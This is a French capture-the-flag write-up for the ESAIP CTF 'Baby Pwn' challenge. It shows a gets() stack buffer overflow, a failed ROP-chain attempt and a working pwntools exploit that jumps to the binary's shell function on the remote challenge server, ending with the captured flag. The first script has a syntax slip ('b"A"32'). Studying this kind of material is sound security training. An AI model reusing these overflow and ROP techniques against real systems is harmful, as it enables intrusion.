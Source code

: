 ```yaml
---
title: "[ESAIP CTF] - Baby Pwn (450)"
date: 2022-06-04
categories: ['pwn']
draft: false
---
```


---
### Author : `Rxphgui` 
---

Nous allons aujourd'hui voir le premier challenge d'exploitation de binaire de l'ESAIP CTF. Il s'agissait d'un challenge d'introduction. Pourtant il avait moins de 10 solves.
Nous n'avions simplement le binaire ainsi qu'un accès remote.

## Introduction

Pour commencer nous allons analyser le binaire de manière assez simple : 

```bash
[raphgui@ret2arch:Téléchargements/pwn]$ file babypwn              (06-05 16:41)
babypwn: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=950806fb3e5df438288e966762b67e0c218467a5, for GNU/Linux 3.2.0, not stripped
```
Puis faire un `checksec` pour voir les protections activées :

```bash
[raphgui@ret2arch:Téléchargements/pwn]$ checksec --file=babypwn                                    (06-05 16:41)
[*] '/home/raphgui/Téléchargements/pwn/babypwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

En ouvrant le binaire avec **IDA**, on voit une fonction `main` qui prend une entrée user par un `gets`.
On peut donc buffer overflow, le buffer est de *32*.

## Exploitation

J'ai perdu pas mal de temps sur ce challenge car je n'avais pas remarqué la présence de le fonction `Shell`.
J'ai d'abord utilisé l'option `ropchain` de **ROPgadget** qui marchait en local mais pas en remote.

Suite à ça, j'ai commencé à regardé de plus près le binaire, et nous n'avions pas de fonction system de la `libc`.
Il y avait cependant une fonction system qui executait `do_system`, nous ne pouvions pas directement jump sur cette fonction.

```nasm
system :

test    rdi, rdi
jz      do_system
```

J'ai cherché des gadgets pour notre `test rdi, rdi`. L'exploit ne marchait pas en remote :

```python
from pwn import *

elf = context.binary = ELF('./chall')
p = elf.process()

buffer = b"A"32
sRBP   = b"B"8

gadget_xor         = p64(0x446c99) # xor rax, rax; ret
gadget_mov_rdi_rax = p64(0x455403) # mov rdi, rax 
gadget_ret         = p64(0x4552A5) # ret

addr_system = p64(0x411090)

ropchain = b""
ropchain += buffer
ropchain += sRBP
ropchain += gadget_xor
ropchain += gadget_mov_rdi_rax
ropchain += gadget_ret
ropchain += addr_system

# Username : 
p.sendline(ropchain)

#Password :
p.sendline(b'\x00')

p.interactive()
```

## Get a Shell

Je reste sur deux échecs qui m'ont fait perdre pas moins de 1 heure. Je devais donc flag. :)
Je me met à analyser le binaire (les fonctions) et je tombe sur cette fameuse fonction :

```
0x401d95 <shell>
```

Nous n'avions plus qu'a jump dessus tel que :

```python
from pwn import *
#r = process('./chall')
r = remote('baby-pwn.esaip-cyber.com', 55555)

buffer = b"A"*32
sRBP   = b"B"*8

addr_shell = p64(0x0000000000401D9e)

payload = b""
payload += buffer
payload += sRBP
payload += addr_shell

#print(r.recvuntil("\n"))
r.sendline(payload)
r.sendline(b'hey')
#print(r.recvuntil("\n"))
r.interactive()
```

```bash
[raphgui@ret2arch:Téléchargements/pwn]$ python3 exploit.py                                                                                                                                                             (06-05 16:56)
[+] Opening connection to baby-pwn.esaip-cyber.com on port 55555: Done
[*] Switching to interactive mode
$ id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
$ cat flag
ECTF{A_l1ttl3_b4by_pwny}
```
